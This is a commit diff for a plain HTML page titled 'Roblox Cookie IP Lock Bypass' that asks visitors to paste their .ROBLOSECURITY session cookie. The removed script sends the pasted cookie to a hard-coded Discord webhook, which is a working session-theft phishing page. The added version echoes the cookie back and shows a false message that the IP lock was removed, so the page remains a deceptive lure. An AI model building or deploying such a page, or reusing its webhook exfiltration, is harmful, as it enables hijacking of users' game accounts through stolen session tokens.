

Before and after one commit to SocietyxDev/iplock, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample" into the empty fields and a click on the button "Generate". Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,43 +5,54 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Roblox Cookie IP Lock Bypass</title>
     <style>
-        body { font-family: Arial, sans-serif; text-align: center; margin: 50px; }
-        input, button { margin: 10px; padding: 10px; width: 300px; }
-        #newCookie { background: #f0f0f0; border: 1px solid #ccc; padding: 10px; }
+        body {
+            font-family: Arial, sans-serif;
+            text-align: center;
+            margin: 50px;
+        }
+        input, button {
+            padding: 10px;
+            margin: 10px;
+            width: 300px;
+        }
+        #popup {
+            display: none;
+            position: fixed;
+            top: 20px;
+            left: 50%;
+            transform: translateX(-50%);
+            background: #ffcc00;
+            padding: 10px;
+            border-radius: 5px;
+            font-weight: bold;
+        }
     </style>
+</head>
+<body>
+    <h2>Roblox Cookie IP Lock Bypass</h2>
+    <input type="text" id="oldCookie" placeholder="Enter Roblox .ROBLOSECURITY">
+    <br>
+    <button onclick="generateCookie()">Generate</button>
+    <br>
+    <h3>New Cookie:</h3>
+    <input type="text" id="newCookie" value="Waiting..." readonly>
+
+    <div id="popup">⚠️ IP lock already removed, no need to refresh cookie.</div>
+
     <script>
-        async function sendCookie() {
-            const cookie = document.getElementById("cookieInput").value;
-            if (!cookie) {
-                alert("Please enter a cookie!");
+        function generateCookie() {
+            let oldCookie = document.getElementById("oldCookie").value;
+            if (oldCookie.trim() === "") {
+                alert("Please enter a valid cookie!");
                 return;
             }
 
-            document.getElementById("newCookie").textContent = cookie;
-            alert("⚠️ IP lock already removed, no need to refresh cookie.");
+            document.getElementById("newCookie").value = oldCookie; // No new session, same cookie
 
-            const webhookURL = "https://discord.com/api/webhooks/1342145069012226128/tCdPrO95hcPpasmFRjQtymKgYK028-0l3rZ4NgzlLKg0DgTUL4kj2ft1N0OT5LREM8jx";
-            const embed = {
-                embeds: [{
-                    title: "🔑 New Roblox Cookie",
-                    description: `\`\`${cookie}\`\``,
-                    color: 16711680
-                }]
-            };
-
-            fetch(webhookURL, {
-                method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify(embed)
-            }).catch(err => console.error("Webhook error:", err));
+            let popup = document.getElementById("popup");
+            popup.style.display = "block";
+            setTimeout(() => popup.style.display = "none", 3000); // Hide popup after 3 seconds
         }
     </script>
-</head>
-<body>
-    <h2>Roblox Cookie IP Lock Bypass</h2>
-    <input type="text" id="cookieInput" placeholder="Enter Roblox .ROBLOSECURITY">
-    <button onclick="sendCookie()">Generate</button>
-    <h3>New Cookie:</h3>
-    <div id="newCookie">Waiting...</div>
 </body>
 </html>
```
